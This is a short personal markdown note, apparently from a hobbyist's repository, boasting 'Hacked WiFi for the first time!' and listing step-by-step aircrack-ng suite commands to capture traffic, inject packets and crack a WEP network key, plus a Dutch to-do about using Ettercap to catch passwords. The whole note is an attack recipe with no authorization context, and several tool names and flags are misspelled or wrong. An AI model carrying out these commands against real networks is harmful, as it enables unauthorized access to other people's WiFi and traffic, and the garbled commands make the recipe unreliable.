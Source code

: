 ##27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

#Steps/Commands

wlan0 = own interface -> wlan1monmon

mon0 = find it by "airmon-ng"

###Wireless Reconnaiccance:
**Window 1**
* iwconfig
* airmin-ng start wlan0
* airodump-ng mon0
* Find information in table
  * ESSID
  * BSSID
  * Channel
  * Client's  MAC

###Wireless Equivalent Privacy(WEP):
**Window 1**
* airmon-ng
  * Find mon0
* airodump-ng mon0
* Find information in table
	
**New window 2**
* airodump-ng --bssid "client's MAC" -c "Channel" -w wep_log mon0

**New window 3** 
* ifconfig 
* Find own MAC

**New window 4**
* airdoplay-ng -l 0 -a "client's MAC" -h "own MAC" -e "name connaction" mon0 --ignore-negative-one
* airoplay-ng -3 -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one

**New window 5**
* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "client's MAC" -h "own MAC" mon0 --ignore-negative-one
* use this packet? ENTER

**Window 2** 
* Everything is fine if data is above 5000 
* Close window 2, 3, 4, 5

**First window**	
* clear
* aircrack-ng -a l -b "client's MAC" -n 64 wep_log-01.cap
	
**_FIND PASSWORD!!!!_**

Next time: Script schrijven!

TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?)
